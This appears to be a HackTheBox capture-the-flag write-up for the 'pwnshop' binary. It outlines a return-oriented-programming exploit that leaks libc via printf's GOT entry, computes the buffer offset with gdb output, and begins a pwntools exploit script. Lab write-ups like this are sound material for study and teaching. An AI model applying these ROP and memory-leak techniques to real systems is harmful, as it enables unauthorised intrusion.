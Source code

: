 ### FLOW

> Payload we need to send

```
padding (need to calculate it first btw) + rdi_gadget + function@got + function@plt + return_symbol + sub_rsp_gadget.
```

> Grabbing sub_rsp (dunno why can't automate the grab using ropstar).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/36d25dfd-4b78-4905-8fa9-629e28ff6c50)


> Calculating the padding

```
Find the rip offset using gdb, then get the length of our rop_payload, and lastly substract them.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ecb91286-0dfc-42f3-87fd-b4830653564a)


```console
gdb-peda$ pattern search
No register contains pattern buffer
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~101
[RSP] --> offset 72 - size ~29
Pattern buffer found at:
0x00007fffffffdd50 : offset    0 - size   80 ($sp + -0x48 [-18 dwords])
References to pattern buffer found at:
0x00007fffffffb6c0 : 0x00007fffffffdd50 ($sp + -0x26d8 [-2486 dwords])
0x00007fffffffd998 : 0x00007fffffffdd50 ($sp + -0x400 [-256 dwords])
0x00007fffffffdc78 : 0x00007fffffffdd50 ($sp + -0x120 [-72 dwords])
```

```
Get the length of our rop payload.
```

```py
# ROP PAYLOAD
p = flat([
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a
])
```

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript="""
init-pwndbg
continue
""".format(**locals())

exe = './pwnshop'
```